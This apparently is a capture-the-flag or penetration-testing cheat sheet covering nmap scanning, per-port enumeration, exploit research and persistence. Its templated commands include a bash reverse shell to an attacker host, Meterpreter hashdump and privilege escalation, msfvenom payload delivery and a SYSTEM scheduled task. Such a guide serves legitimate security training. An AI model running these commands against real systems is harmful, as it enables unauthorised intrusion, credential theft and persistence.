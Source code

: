* * *

# Step 0: Cry

* * *

# Step 1: Intelligence Gathering

-   Review the packet capture and annotate important details.
-   **Read everything carefully before proceeding.**
* * *

# Step 2: Scanning with Nmap

Once the target IP address is identified, begin reconnaissance with Nmap.

**General Command:**

```bash
nmap <options> <ip_address>
```

**Commonly useful options:**

-   `-sC` → run default scripts
-   `-sV` → enumerate service versions
-   `--script=<name>` → run a specific script (e.g., `--script=smb-vuln*`)
-   `-p-` → scan all 65,535 ports
-   `-p` → specify target ports
    -   Examples:
        -   `-p21,22,80`
        -   `-p21-23,139,445,8080-10000`
-   `-Pn` → skip host discovery (useful when ICMP/ping is blocked)
-   `-O` → attempt OS fingerprinting
-   `-oA <filename>` → save results in multiple formats
* * *

# Step 3: Basic Enumeration

### Port 21 – FTP

-   Attempt authentication (default, weak, or anonymous login).
-   If successful, enumerate files and directories.

**Command Example:**

```bash
ftp <ip_address> USER: anonymous PASS: <blank>
```

**Targets of interest:**

-   `flag.txt` or similar
-   Configuration files
-   `passwords.txt`
-   SSH keys
-   Admin notes
* * *

### Port 22 – SSH

-   Attempt login with known or discovered credentials.

**Command Example:**

```bash
ssh <user>@<ip_address>
```

* * *

### Port 23 – Telnet

-   Attempt login, sometimes defaults exist (`root` with no password).
* * *

### Port 80 – HTTP (Web Services)

**Initial actions:**

-   Visit `http://<ip_address>` in a browser.
-   Identify technologies, login pages, CMS, plugins, version numbers.
-   Inspect source code, headers, cookies, and comments.

**Directory enumeration:**

```bash
gobuster dir -u http://<ip>:<port> -w <wordlist> feroxbuster -u http://<ip>:<port> -w /usr/share/wordlists/dirb/big.txt
```

Other tools: `dirb`, `wfuzz`, `ffuf`.

**File retrieval:**

-   Use `curl` or `wget` to pull files directly.

```bash
curl -IL http://<ip>         # headers only
wget http://<ip>/<path>      # download file
```

**Gaining access:**

-   Attempt web shell uploads (PHP, ASPX).
-   Look for command injection opportunities.

**Reverse shell example:**

`bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'`

* * *

### Ports 139/445 – SMB

-   Enumerate available shares.

**Commands:**

```bash
smbclient -L \\<ip> smbclient \\<ip>\share_name -U <user>
```

-   Look for non-default shares and sensitive files.
-   Metasploit module `auxiliary/scanner/smb/smb_version` can identify OS version.
* * *

### Port 3389 – RDP

-   Attempt login with valid or guessed credentials.
-   Common usernames: `administrator`, `guest`.
-   Common passwords: `admin`, `password`, `administrator`.
**Command Example:**

```bash
xfreerdp /v:<ip>:<port> /u:<username> /p:<password>
```

* * *

# Step 4: Exploit Research

### Searchsploit

```bash
searchsploit <software/version> searchsploit CVE-2025-1324
```

Options:

-   `-x <path>` → view exploit content
-   `-m <path>` → copy exploit locally
* * *

### Metasploit

**Workflow:**

```bash
msfconsole search <keyword or CVE>
use <exploit>
set rhosts <target>
set lhost <attacker_ip>
set lport <port>
set <any other options you may need>
exploit
```

**Payload examples:**

-   Windows: `windows/meterpreter/reverse_tcp` (32-bit) / `windows/x64/meterpreter/reverse_tcp` (64-bit)
-   Linux: `linux/x86/meterpreter/reverse_tcp` / `linux/x64/meterpreter/reverse_tcp`
-   PHP: `php/meterpreter/reverse_tcp`, `php/reverse_php`

**Useful Meterpreter commands:**

-   `getuid` → current user
-   `shell` → drop into system shell
-   `ps` / `migrate` → process management
-   `hashdump` → dump password hashes
-   `getsystem` → attempt privilege escalation
-   `upload` / `download` → transfer files
-   `search -f *flag*` → locate files of interest
* * *

# Step 5: Persistence

**Generate a payload with msfvenom:**

```bash
msfvenom -p <payload> lhost=<attacker_ip> lport=<port> \ -f <exe|elf|php> -o <filename>
```

**Delivery methods:**

-   Upload with Meterpreter:

    `upload <file> <destination>`

-   Host via Python HTTP server:

    `python3 -m http.server 8000 wget http://<attacker_ip>:8000/<file>`

**Establish scheduled tasks (Windows):**

```cmd
schtasks /create /tn <taskname> /tr <path_to_payload> /ru SYSTEM /sc minute /mo 1
```

_(If SYSTEM fails, try with the compromised user account.)_

**Listener setup:**

-   Use `multi/handler` in Metasploit.
-   Ensure payload type and port match msfvenom configuration.
